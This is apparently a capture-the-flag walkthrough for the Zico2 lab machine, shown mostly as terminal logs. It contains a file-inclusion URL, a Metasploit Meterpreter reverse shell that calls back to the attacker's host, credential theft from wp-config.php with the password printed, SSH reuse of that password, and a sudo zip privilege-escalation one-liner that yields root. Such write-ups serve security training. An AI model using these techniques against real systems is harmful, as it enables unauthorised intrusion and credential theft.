







```
http://192.168.1.22/view.php?page=../../usr/databases/hack.php
```

```sh
root@kali:~/zico2# systemctl start postgresql
root@kali:~/zico2# msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.1.11
LHOST => 192.168.1.11
msf exploit(multi/handler) > set LPORT 4455
LPORT => 4455
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.11:4455
[*] Sending stage (857352 bytes) to 192.168.1.22
[*] Sleeping before handling stage...
[*] Meterpreter session 1 opened (192.168.1.11:4455 -> 192.168.1.22:46150) at 2018-05-23 00:07:33 -0400

meterpreter > sysinfo
Computer     : 192.168.1.22
OS           : Ubuntu 12.04 (Linux 3.2.0-23-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
meterpreter > shell
Process 1326 created.
Channel 1 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@zico:~$ cd /home
cd /home
www-data@zico:/home$ ls -lah
ls -lah
total 12K
drwxr-xr-x  3 root root 4.0K Jun  8  2017 .
drwxr-xr-x 24 root root 4.0K Jun  1  2017 ..
drwxr-xr-x  6 zico zico 4.0K Jun 19  2017 zico
www-data@zico:/home$ cd zico
cd zico
www-data@zico:/home/zico$ ls -lah
ls -lah
total 9.1M
drwxr-xr-x  6 zico zico 4.0K Jun 19  2017 .
drwxr-xr-x  3 root root 4.0K Jun  8  2017 ..
-rw-------  1 zico zico  912 Jun 19  2017 .bash_history
-rw-r--r--  1 zico zico  220 Jun  8  2017 .bash_logout
-rw-r--r--  1 zico zico 3.5K Jun  8  2017 .bashrc
-rw-r--r--  1 zico zico  675 Jun  8  2017 .profile
drw-------  2 zico zico 4.0K Jun  8  2017 .ssh
-rw-------  1 zico zico 3.5K Jun 19  2017 .viminfo
-rw-rw-r--  1 zico zico 493K Jun 14  2017 bootstrap.zip
drwxrwxr-x 18 zico zico 4.0K Jun 19  2017 joomla
drwxrwxr-x  6 zico zico 4.0K Aug 19  2016 startbootstrap-business-casual-gh-pages
-rw-rw-r--  1 zico zico   61 Jun 19  2017 to_do.txt
drwxr-xr-x  5 zico zico 4.0K Jun 19  2017 wordpress
-rw-rw-r--  1 zico zico 8.5M Jun 19  2017 wordpress-4.8.zip
-rw-rw-r--  1 zico zico 1.2K Jun  8  2017 zico-history.tar.gz
www-data@zico:/home/zico$
www-data@zico:/home/zico$ cd wordpress
cd wordpress
www-data@zico:/home/zico/wordpress$ ls -lah
ls -lah
total 196K
drwxr-xr-x  5 zico zico 4.0K Jun 19  2017 .
drwxr-xr-x  6 zico zico 4.0K Jun 19  2017 ..
-rw-r--r--  1 zico zico  418 Sep 25  2013 index.php
-rw-r--r--  1 zico zico  20K Jan  2  2017 license.txt
-rw-r--r--  1 zico zico 7.3K Dec 12  2016 readme.html
-rw-r--r--  1 zico zico 5.4K Sep 27  2016 wp-activate.php
drwxr-xr-x  9 zico zico 4.0K Jun  8  2017 wp-admin
-rw-r--r--  1 zico zico  364 Dec 19  2015 wp-blog-header.php
-rw-r--r--  1 zico zico 1.6K Aug 29  2016 wp-comments-post.php
-rw-r--r--  1 zico zico 2.8K Jun 19  2017 wp-config.php
drwxr-xr-x  4 zico zico 4.0K Jun  8  2017 wp-content
-rw-r--r--  1 zico zico 3.3K May 24  2015 wp-cron.php
drwxr-xr-x 18 zico zico  12K Jun  8  2017 wp-includes
-rw-r--r--  1 zico zico 2.4K Nov 21  2016 wp-links-opml.php
-rw-r--r--  1 zico zico 3.3K Oct 25  2016 wp-load.php
-rw-r--r--  1 zico zico  34K May 12  2017 wp-login.php
-rw-r--r--  1 zico zico 7.9K Jan 11  2017 wp-mail.php
-rw-r--r--  1 zico zico  16K Apr  6  2017 wp-settings.php
-rw-r--r--  1 zico zico  30K Jan 24  2017 wp-signup.php
-rw-r--r--  1 zico zico 4.5K Oct 14  2016 wp-trackback.php
-rw-r--r--  1 zico zico 3.0K Aug 31  2016 xmlrpc.php
www-data@zico:/home/zico/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'zico');

/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'put your unique phrase here');
define('SECURE_AUTH_KEY',  'put your unique phrase here');
define('LOGGED_IN_KEY',    'put your unique phrase here');
define('NONCE_KEY',        'put your unique phrase here');
define('AUTH_SALT',        'put your unique phrase here');
define('SECURE_AUTH_SALT', 'put your unique phrase here');
define('LOGGED_IN_SALT',   'put your unique phrase here');
define('NONCE_SALT',       'put your unique phrase here');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
www-data@zico:/home/zico/wordpress$
```

```
DB_USER zico
DB_PASSWORD sWfCsfJSPV9H3AmQzw8
```

###### Privilege Escalation

```sh
root@kali:/var/www/html# ssh zico@192.168.1.22
The authenticity of host '192.168.1.22 (192.168.1.22)' can't be established.
ECDSA key fingerprint is SHA256:+zgKqxyYlTBxVO0xtTVGBokreS9Zr71wQGvnG/k2igw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.22' (ECDSA) to the list of known hosts.
zico@192.168.1.22's password:

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
zico@zico:~$
```

```sh
zico@zico:~$ touch /tmp/exploit
```

```sh
zico@zico:~$ sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
  adding: tmp/exploit (stored 0%)
root@zico:~#
```

```sh
root@zico:~# id
uid=0(root) gid=0(root) groups=0(root)
root@zico:~#
root@zico:~# cd /root/
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

root@zico:/root#
```